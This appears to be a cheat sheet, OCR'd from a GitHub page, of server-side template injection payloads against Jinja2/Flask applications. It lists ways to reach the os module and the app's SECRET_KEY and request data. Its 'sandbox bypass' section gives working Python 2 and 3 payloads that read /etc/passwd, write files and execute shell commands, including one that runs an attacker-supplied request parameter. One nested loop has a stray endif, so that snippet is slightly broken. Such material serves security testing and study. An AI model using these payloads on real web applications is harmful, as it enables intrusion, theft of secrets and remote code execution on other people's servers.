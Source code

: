   - Get `os`
    - `{{lipsum.__globals__.os}}`
    - `{{cycler.__init__.__globals__.os}}`
  - Load `os`
    - `{{config.from_object('os')}}`
  - `{{ config }}`
    - config.SECRET\_KEY
    - config.from\_pyfile(filename)
  - `{{ request }}`
    - request.args.name
    - request.cookies.name
    - request.headers.name
    - request.values.name
    - request.form.name
  - sandbox bypass

    ```python
    #All the below payloads works under python2
    --------------------------------------------

    #Starting from string or list
    {{ ''.__class__.__base__ }}

    #File operation
    {{ ''.__class__.__mro__[2].__subclasses__() }}
    {{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
    {{ ''.__class__.__mro__[2].__subclasses__()[40]('/var/www/app/a.txt').write('test') }}
    
    #RCE
    {{ ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('id').read() }}
    > uid=1000(ubuntu)gid=1000(ubuntu)...

    #All the below payloads works under python3
    --------------------------------------------
    {{ ().__class__.__base__.__subclasses__() }}
    {{ ().__class__.__base__.__subclasses__()[132] }} #<class 'os._wrap_close'>
    {{ ().__class__.__base__.__subclasses__()[132].__init__.__globals__ }}
    {{ ().__class__.__base__.__subclasses__()[132].__init__.__globals__['system']('id') }}

    #Find eval
    {% for c in [].__class__.__base__.__subclasses__(): %}
      {% if c.__name__ == 'catch_warnings': %}
        {% for b in c.__init__.__globals__.values(): %}
          {% if b.__class__ == {}.__class__ %}
            {% if 'eval' in b.keys(): %}
              {{ b['eval']('__import__("os").popen("id").read()') }}
            {% endif %}
          {% endif %}
        {% endif %}
      {% endif %}
    {% endfor %}

    #Import
    {% for x in ().__class__.__base__.__subclasses__() %}
      {% if "warning" in x.__name__ %}
        {{x()._module.__builtins__["__import__"]("os").popen(request.args.payload).read()}}
      {% endif %}
    {% endfor %}
    ```
